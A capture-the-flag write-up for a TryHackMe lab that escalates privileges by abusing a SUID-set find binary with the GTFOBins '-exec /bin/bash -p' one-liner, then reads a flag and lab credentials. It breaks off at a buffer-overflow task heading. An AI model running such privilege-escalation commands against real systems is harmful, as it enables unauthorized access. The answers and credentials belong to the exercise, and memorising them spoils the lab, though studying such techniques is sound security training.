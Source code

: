 1. What are the login credential for initial access. Answer format should be in username:password

`tryhackme:thebest`

## Task 2 SUID :: Binary 1

Read the flag.txt from des's home directory.

```
tryhackme@THM_exploit:~$ find / -type f -perm -u=s -user des -ls 2> /dev/null
   262721    236 -rwsr-sr-x   1 des      des        238080 Nov  5  2017 /usr/bin/find
tryhackme@THM_exploit:~$ ls -la /usr/bin/find
-rwsr-sr-x 1 des des 238080 Nov  5  2017 /usr/bin/find
```

[https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

```
tryhackme@THM_exploit:~$ find . -exec /bin/bash -p \; -quit
bash-4.4$ whoami
des
bash-4.4$ cd /home/des/
bash-4.4$ ls -la
total 52
drwx------ 4 des  des  4096 Jan 17  2020 .
drwxr-xr-x 6 root root 4096 Jan 17  2020 ..
-rw------- 1 root root 1740 Jan 12  2020 .bash_history
-rw-r--r-- 1 des  des   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 des  des  3771 Apr  4  2018 .bashrc
-rwsr-xr-x 1 kel  kel  8600 Jan 17  2020 bof
-rw-r--r-- 1 root root  335 Jan 17  2020 bof64.c
drwx------ 2 des  des  4096 Jan 12  2020 .cache
-r-x------ 1 des  des   237 Jan 17  2020 flag.txt
drwx------ 3 des  des  4096 Jan 12  2020 .gnupg
-rw-r--r-- 1 des  des   807 Apr  4  2018 .profile
bash-4.4$ cat flag.txt
Good job on exploiting the SUID file. Never assign +s to any system executable files. Remember, Check gtfobins.

You flag is THM{exploit_the_SUID}

login crdential (In case you need it)
username: des
password: destructive_72656275696c64
```

`username: des password: destructive_72656275696c64`

1. What is the contents of /home/des/flag.txt?

`THM{exploit_the_SUID}`

## Task 3 Buffer Overflow :: Binary 2

Read the flag.txt from kel's home directory.

